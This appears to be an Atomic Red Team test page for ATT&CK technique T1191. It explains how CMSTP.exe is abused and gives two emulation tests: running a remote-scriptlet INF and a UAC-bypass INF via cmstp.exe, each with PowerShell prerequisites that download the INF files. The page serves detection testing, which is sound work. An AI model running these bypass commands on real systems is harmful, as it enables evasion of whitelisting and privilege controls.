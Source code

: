 # T1191 - CMSTP

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1191)

<blockquote>The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan
2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1117) / ”Squiblydoo”, CMSTP.exe may be abused to load
and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation:
Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This
execution may also bypass AppLocker and other whitelisting defenses since CMSTP.exe is a legitimate, signed Microsoft
application.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) and execute
arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (
Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)

<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet

Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191.inf|

#### Attack Commands: Run with `command_prompt`!

```cmd
cmstp.exe /s #{inf_file_path}
```

#### Dependencies:  Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_file_path})

##### Check Prereq Commands:

```powershell
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191.inf" -OutFile "#{inf_file_path}"
```

<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass

Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an
INF file

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191_uacbypass.inf|

#### Attack Commands: Run with `command_prompt`!

```cmd
cmstp.exe /s #{inf_file_uac} /au
```

#### Dependencies:  Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_file_uac})

##### Check Prereq Commands:

```powershell
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191_uacbypass.inf" -OutFile "#{inf_file_uac}"
```

<br/>
